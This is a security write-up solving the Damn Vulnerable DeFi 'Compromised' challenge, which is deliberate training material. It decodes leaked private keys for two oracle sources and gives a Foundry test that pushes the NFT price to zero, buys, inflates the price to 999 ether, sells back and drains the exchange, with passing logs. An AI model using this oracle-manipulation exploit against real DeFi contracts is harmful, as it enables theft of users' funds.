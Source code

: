 # Damn Vulnerable Defi - Compromised
- Scope
    - Exchange.sol
    - DamnValuableNFT.sol
    - TrustfulOracle.sol  
    - TrustfulOracleInitializer.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)
    - [ETH Address Tool](https://www.rfctools.com/ethereum-address-test-tool/)

# Findings

## Leaked private key gives attackers control of oracle and price of the token or NFT is manipulated

### Summary
Leaked private key gives attackers control of oracle and price of the token or NFT is manipulated to drain the ETH off exchange.

### Vulnerability Details
Leaked private keys are dangerous as it gives attackers total control of the oracle and the token or NFT price can be manipulated.

### Impact/Proof of Concept
Remember to inherit `IERC721Receiver` on the CompromisedChallenge contract.
```
function test_compromised() public checkSolved {
        // From the readme.md file, we have 2 leaked data and we need to convert them from Hexadecimal -> ASCII -> DecodeBase64 -> String
        // Leaked_1 = 4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30
        // Leaked_2 = 4d 48 67 32 4f 47 4a 6b 4d 44 49 77 59 57 51 78 4f 44 5a 69 4e 6a 51 33 59 54 59 35 4d 57 4d 32 59 54 56 6a 4d 47 4d 78 4e 54 49 35 5a 6a 49 78 5a 57 4e 6b 4d 44 6c 6b 59 32 4d 30 4e 54 49 30 4d 54 51 77 4d 6d 46 6a 4e 6a 42 69 59 54 4d 33 4e 32 4d 30 4d 54 55 35
        // pk_1 = "7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744"
        // pk_2 = "68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159"
        // After conversion, we can see that they are actually the private key of the 2 sources as their addr is calculated to be the same.
        // Try it at -> https://www.rfctools.com/ethereum-address-test-tool/
        address source1 = 0x188Ea627E3531Db590e6f1D71ED83628d1933088;
        address source2 = 0xA417D473c40a4d42BAd35f147c21eEa7973539D8;
        
        // Simulate hijacking source 1 and 2 as we have the private keys, then set the NFT price to 0
        vm.startPrank(source1);
        oracle.postPrice("DVNFT", 0);
        vm.startPrank(source2);
        oracle.postPrice("DVNFT", 0);
        console.log("DNFT Price: ", oracle.getMedianPrice("DVNFT") / 1e18);

        // Switch to player and buy with 1 ether, as 0 will revert
        vm.startPrank(player);
        uint256 id = exchange.buyOne{value: 1}();

        // Switch back to source 1 and 2 and set the NFT price to be very high
        vm.startPrank(source1);
        oracle.postPrice("DVNFT", 999 ether);
        vm.startPrank(source2);
        oracle.postPrice("DVNFT", 999 ether);
        console.log("DNFT Price: ", oracle.getMedianPrice("DVNFT") / 1e18);

        // Approve the sale and then sell DNFT back to exchange for a high price
        vm.startPrank(player);
        nft.approve(address(exchange), id);
        exchange.sellOne(id);

        // Transfer ETH to recovery
        (bool success,) = recovery.call{value: 999 ether}("");
        require(success);
        console.log("Player Balance: ", player.balance / 1e18);
        console.log("Recovery Balance: ", recovery.balance / 1e18);
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4){
        return this.onERC721Received.selector;
    }
```

Results
```diff
Ran 2 tests for test/compromised/Compromised.t.sol:CompromisedChallenge
[PASS] test_assertInitialState() (gas: 40733)
[PASS] test_compromised() (gas: 246870)
Logs:
  DNFT Price:  0
  DNFT Price:  999
  Player Balance:  0
  Recovery Balance:  999

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 1.96ms (604.80µs CPU time)
```

